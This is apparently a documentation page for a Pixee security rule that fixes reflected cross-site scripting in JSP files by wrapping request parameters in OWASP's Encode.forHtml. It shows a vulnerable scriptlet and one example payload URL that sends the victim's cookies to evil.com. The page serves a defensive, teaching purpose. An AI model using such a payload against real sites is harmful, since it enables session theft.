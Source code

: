 ```yaml
---
title: Encode Untrusted Scriptlet Contents
sidebar_position: 1
---
```


## pixee:java/encode-jsp-scriptlet

| Importance | Review Guidance            | Requires SARIF Tool |
|------------|----------------------------|---------------------|
 | High       | Merge After Cursory Review | No                  |


This rule encodes certain JSP scriptlets to fix what appear to be trivially exploitable [Reflected Cross-Site Scripting (XSS)](https://portswigger.net/web-security/cross-site-scripting) vulnerabilities in JSP files. XSS is a vulnerability that is tricky to understand initially, but really easy to exploit.

Consider the following example code:

```java
Welcome to our site <%= request.getParameter("name") %>
```

An attacker could construct a link with an HTTP parameter `name` containing malicious JavaScript and send it to the victims, and if they click it, cause it to execute in the victims' browsers in the domain context. This could allow attackers to exfiltrate session cookies and spoof their identity, perform actions on victim's behalf, and more generally "do anything" as that user. Here's an example of such an evil link used by attacker to leak the victim's cookies back to their evil site logs:

`https://bank.com/search?name=<script>document.location='http://evil.com/?'+document.cookie</script>`

Our changes introduce an HTML-encoding mechanism that look something like this:

```diff
-Welcome to our site <%= request.getParameter("name") %>
+Welcome to our site <%= org.owasp.encoder.Encode.forHtml(request.getParameter("name")) %>
```

This change encodes HTML control characters that attackers would use to execute code. 

If you have feedback on this rule, [please let us know](mailto:feedback@pixee.ai)!

## F.A.Q. 

### Why is this rule marked as Merge After Cursory Review?

This change is safe and effective in almost all situations. However, depending on the context in which the scriptlet is rendered (e.g., inside an HTML tag, in JavaScript, unquoted contexts, etc.), you may need to use another encoding method. Check out the [OWASP XSS Prevention CheatSheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html) to learn more about these cases and other controls you may need in exceptional cases. The security control introduced from OWASP used has `forHtml()` variants for all situations (e.g., `forJavaScript()`, `forCssString()`).

## Rule Settings

N/A

## References
* [Security Control (OWASP Encode.java) source code](https://github.com/OWASP/owasp-java-encoder/blob/main/core/src/main/java/org/owasp/encoder/Encode.java#L143)
* [https://portswigger.net/web-security/cross-site-scripting](https://portswigger.net/web-security/cross-site-scripting)
* [https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html) 
* [https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html)
